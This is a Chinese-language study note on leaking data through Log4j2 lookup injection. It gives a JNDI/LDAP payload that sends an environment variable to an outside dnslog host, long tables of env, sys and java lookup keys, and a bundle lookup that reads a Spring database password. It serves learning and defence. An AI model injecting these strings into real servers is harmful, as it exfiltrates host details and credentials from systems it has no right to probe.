

# Log4j2-信息泄露学习

## 前言

开始Log4j2信息泄露的学习，学习自4rain师傅的文章，进行总结

## 回顾

信息泄露主要还是因为这里：


不仅仅可以调用jndi的lookup，还有多种lookup。

至于如果获取，可以通过dnslog来外带，比如：

```java
log.error("${jndi:ldap://${env:OS}.u4yex5.dnslog.cn}");
```



## java

| ID   | usage           | method                            |
| ---- | --------------- | --------------------------------- |
| 1    | ${java:version} | getSystemProperty("java.version") |
| 2    | ${java:runtime} | getRuntime()                      |
| 3    | ${java:vm}      | getVirtualMachine()               |
| 4    | ${java:os}      | getOperatingSystem()              |
| 5    | ${java:hw}      | getHardware()                     |
| 6    | ${java:locale}  | getLocale()                       |

## env

linux：

| id   | usage                      |
| ---- | -------------------------- |
| 1    | ${env:CLASSPATH}           |
| 2    | ${env:HOME}                |
| 3    | ${env:JAVA_HOME}           |
| 4    | ${env:LANG}                |
| 5    | ${env:LC_TERMINAL}         |
| 6    | ${env:LC_TERMINAL_VERSION} |
| 7    | ${env:LESS}                |
| 8    | ${env:LOGNAME}             |
| 9    | ${env:LSCOLORS}            |
| 10   | ${env:LS_COLORS}           |
| 11   | ${env:MAIL}                |
| 12   | ${env:NLSPATH}             |
| 13   | ${env:OLDPWD}              |
| 14   | ${env:PAGER}               |
| 15   | ${env:PATH}                |
| 16   | ${env:PWD}                 |
| 17   | ${env:SHELL}               |
| 18   | ${env:SHLVL}               |
| 19   | ${env:SSH_CLIENT}          |
| 20   | ${env:SSH_CONNECTION}      |
| 21   | ${env:SSH_TTY}             |
| 22   | ${env:TERM}                |
| 23   | ${env:USER}                |
| 24   | ${env:XDG_RUNTIME_DIR}     |
| 25   | ${env:XDG_SESSION_ID}      |
| 26   | ${env:XFILESEARCHPATH}     |
| 27   | ${env:ZSH}                 |

windows：

| id   | usage                          |
| ---- | ------------------------------ |
| 1    | ${env:A8_HOME}                 |
| 2    | ${env:A8_ROOT_BIN}             |
| 3    | ${env:ALLUSERSPROFILE}         |
| 4    | ${env:APPDATA}                 |
| 5    | ${env:CATALINA_BASE}           |
| 6    | ${env:CATALINA_HOME}           |
| 7    | ${env:CATALINA_OPTS}           |
| 8    | ${env:CATALINA_TMPDIR}         |
| 9    | ${env:CLASSPATH}               |
| 10   | ${env:CLIENTNAME}              |
| 11   | ${env:COMPUTERNAME}            |
| 12   | ${env:ComSpec}                 |
| 13   | ${env:CommonProgramFiles}      |
| 14   | ${env:CommonProgramFiles(x86)} |
| 15   | ${env:CommonProgramW6432}      |
| 16   | ${env:FP_NO_HOST_CHECK}        |
| 17   | ${env:HOMEDRIVE}               |
| 18   | ${env:HOMEPATH}                |
| 19   | ${env:JRE_HOME}                |
| 20   | ${env:Java_Home}               |
| 21   | ${env:LOCALAPPDATA}            |
| 22   | ${env:LOGONSERVER}             |
| 23   | ${env:NUMBER_OF_PROCESSORS}    |
| 24   | ${env:OS}                      |
| 25   | ${env:PATHEXT}                 |
| 26   | ${env:PROCESSOR_ARCHITECTURE}  |
| 27   | ${env:PROCESSOR_IDENTIFIER}    |
| 28   | ${env:PROCESSOR_LEVEL}         |
| 29   | ${env:PROCESSOR_REVISION}      |
| 30   | ${env:PROMPT}                  |
| 31   | ${env:PSModulePath}            |
| 32   | ${env:PUBLIC}                  |
| 33   | ${env:Path}                    |
| 34   | ${env:ProgramData}             |
| 35   | ${env:ProgramFiles}            |
| 36   | ${env:ProgramFiles(x86)}       |
| 37   | ${env:ProgramW6432}            |
| 38   | ${env:SESSIONNAME}             |
| 39   | ${env:SystemDrive}             |
| 40   | ${env:SystemRoot}              |
| 41   | ${env:TEMP}                    |
| 42   | ${env:TMP}                     |
| 43   | ${env:ThisExitCode}            |
| 44   | ${env:USERDOMAIN}              |
| 45   | ${env:USERNAME}                |
| 46   | ${env:USERPROFILE}             |
| 47   | ${env:WORK_PATH}               |
| 48   | ${env:windir}                  |
| 49   | ${env:windows_tracing_flags}   |
| 50   | ${env:windows_tracing_logfile} |

## sys

| id   | usage                                |
| ---- | ------------------------------------ |
| 1    | ${sys:awt.toolkit}                   |
| 2    | ${sys:file.encoding}                 |
| 3    | ${sys:file.encoding.pkg}             |
| 4    | ${sys:file.separator}                |
| 5    | ${sys:java.awt.graphicsenv}          |
| 6    | ${sys:java.awt.printerjob}           |
| 7    | ${sys:java.class.path}               |
| 8    | ${sys:java.class.version}            |
| 9    | ${sys:java.endorsed.dirs}            |
| 10   | ${sys:java.ext.dirs}                 |
| 11   | ${sys:java.home}                     |
| 12   | ${sys:java.io.tmpdir}                |
| 13   | ${sys:java.library.path}             |
| 14   | ${sys:java.runtime.name}             |
| 15   | ${sys:java.runtime.version}          |
| 16   | ${sys:java.specification.name}       |
| 17   | ${sys:java.specification.vendor}     |
| 18   | ${sys:java.specification.version}    |
| 19   | ${sys:java.vendor}                   |
| 20   | ${sys:java.vendor.url}               |
| 21   | ${sys:java.vendor.url.bug}           |
| 22   | ${sys:java.version}                  |
| 23   | ${sys:java.vm.info}                  |
| 24   | ${sys:java.vm.name}                  |
| 25   | ${sys:java.vm.specification.name}    |
| 26   | ${sys:java.vm.specification.vendor}  |
| 27   | ${sys:java.vm.specification.version} |
| 28   | ${sys:java.vm.vendor}                |
| 29   | ${sys:java.vm.version}               |
| 30   | ${sys:line.separator}                |
| 31   | ${sys:os.arch}                       |
| 32   | ${sys:os.name}                       |
| 33   | ${sys:os.version}                    |
| 34   | ${sys:path.separator}                |
| 35   | ${sys:sun.arch.data.model}           |
| 36   | ${sys:sun.boot.class.path}           |
| 37   | ${sys:sun.boot.library.path}         |
| 38   | ${sys:sun.cpu.endian}                |
| 39   | ${sys:sun.cpu.isalist}               |
| 40   | ${sys:sun.desktop}                   |
| 41   | ${sys:sun.io.unicode.encoding}       |
| 42   | ${sys:sun.java.command}              |
| 43   | ${sys:sun.java.launcher}             |
| 44   | ${sys:sun.jnu.encoding}              |
| 45   | ${sys:sun.management.compiler}       |
| 46   | ${sys:sun.os.patch.level}            |
| 47   | ${sys:sun.stderr.encoding}           |
| 48   | ${sys:user.country}                  |
| 49   | ${sys:user.dir}                      |
| 50   | ${sys:user.home}                     |
| 51   | ${sys:user.language}                 |
| 52   | ${sys:user.name}                     |
| 53   | ${sys:user.script}                   |
| 54   | ${sys:user.timezone}                 |
| 55   | ${sys:user.variant}                  |

## Bundle

`${bundle:application:spring.datasource.password}`

在SpringBoot且使用log4j2的情况（需要手动排除`SpringBoot`自带的日志依赖并加入`Log4j2`的依赖）

## 参考链接

https://xz.aliyun.com/t/10659

https://github.com/jas502n/Log4j2-CVE-2021-44228